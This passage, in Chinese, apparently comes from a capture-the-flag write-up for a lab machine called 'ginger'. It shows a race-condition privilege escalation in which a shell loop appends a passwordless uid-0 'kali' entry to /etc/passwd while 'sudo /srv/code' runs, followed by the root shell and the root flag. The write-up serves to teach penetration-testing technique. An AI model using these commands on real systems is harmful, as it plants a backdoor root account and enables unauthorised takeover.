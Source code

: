 这就是在危险边缘疯狂蹦迪，尝试竞争写入即可：

```bash
(remote) caroline@ginger:/home/caroline$ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
(remote) caroline@ginger:/home/caroline$ printf "kali:$(openssl passwd -1):0:0:root:/root:/bin/bash"
Password: 
Verifying - Password: 
kali:$1$8sVzWutt$M10cgy87.pU/kWXId8Iiy/:0:0:root:/root:/bin/bash
```

尝试写入：

```bash
while true; do echo 'kali:$1$8sVzWutt$M10cgy87.pU/kWXId8Iiy/:0:0:root:/root:/bin/bash' >> /etc/passwd 2>/dev/null; sleep 3; tail -n 1 /etc/passwd; done
```

另一边启动程序即可：

```bash
(remote) caroline@ginger:/home/caroline$ sudo /srv/code
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300894.png" alt="image-20250619125731850" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300895.png" alt="image-20250619125741352" style="zoom:50%;" />

尝试切换用户，成功！**PS:未设置密码默认就是空密码，直接回车即可**

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300896.png" alt="image-20250619125942818" style="zoom:50%;" />

```bash
root@ginger:/home/caroline# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@ginger:/home/caroline# cd /root
root@ginger:~# ls -la
total 40
drwx------  5 root root 4096 Jun  2  2021 .
drwxr-xr-x 18 root root 4096 May 19  2021 ..
lrwxrwxrwx  1 root root    9 May 25  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 21  2021 .cache
drwx------  3 root root 4096 May 21  2021 .gnupg
drwxr-xr-x  3 root root 4096 May 22  2021 .local
-rw-------  1 root root 1563 Jun  2  2021 .mysql_history
-rw-r--r--  1 root root  149 May 21  2021 .profile
-rwx------  1 root root   33 May 22  2021 root.txt
-rw-r--r--  1 root root   66 May 21  2021 .selected_editor
root@ginger:~# cat root.txt 
ae426c9d237d676044e5cd8e8af9ef7f
```

